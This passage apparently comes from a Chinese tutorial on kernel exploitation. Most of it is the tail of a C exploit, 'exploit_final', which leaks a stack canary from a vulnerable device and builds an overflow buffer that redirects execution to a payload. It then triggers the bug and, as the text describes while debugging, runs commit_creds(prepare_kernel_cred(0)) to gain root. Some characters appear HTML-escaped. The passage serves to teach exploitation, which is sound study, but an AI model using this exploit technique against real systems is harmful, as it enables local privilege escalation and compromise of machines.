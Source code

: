 ```
        printf("errorn");
        exit(1);
    `}`
    lseek(fd,16,SEEK_CUR);
    char buffer[64] = `{`0`}`;
    read(fd,buffer,64);
    int i,j;
    //memset(buffer,0x41,64);
    for(i = 0;i&lt;4;i++)`{`
        for(j = 0;j&lt;16;j++)`{`
            printf("%02x ",buffer[i*16+j] &amp; 0xff);
        `}`
        printf(" | ");
        for(j = 0;j&lt;16;j++)`{`
            printf("%c",buffer[i*16+j] &amp; 0xff);
        `}`
        printf("n");
    `}`
    char canary[4] = `{`0`}`;
    memcpy(canary,buffer+32,4);
    printf("CANARY:");
    for(i = 0;i&lt;4;i++)`{`
        printf("%02x",canary[i] &amp; 0xff);
    `}`
    printf("n");
    char poc[84] = `{`0`}`;
    memset(poc,0x41,84);
    memcpy(poc+64,canary,4);//set canary
    *((void**)(poc+64+4+4)) = &amp;payload;
    *((void**)(poc+64+4+4+4)) = &amp;payload;
    *((void**)(poc+64+4+4+4+4)) = &amp;payload;
    printf("[*]payload:%sn",poc);
    printf("Triger bug:n");
    //init tf struct;
    prepare_tf();
    write(fd,poc,84);
    return 0;
`}`
```

**1. 调试**

编译运行exploit_final，调试查看执行过程：

[![](https://p2.ssl.qhimg.com/t01528c9d76062bae73.png)](https://p2.ssl.qhimg.com/t01528c9d76062bae73.png)

查看栈顶，发现是我们payload的地址，单步过去查看：

[![](https://p0.ssl.qhimg.com/t01c230ce5dd27c7988.png)](https://p0.ssl.qhimg.com/t01c230ce5dd27c7988.png)

先去执行commit_creds(prepare_kernel_cred(0))，然后我们查看一下伪造的tf结构：
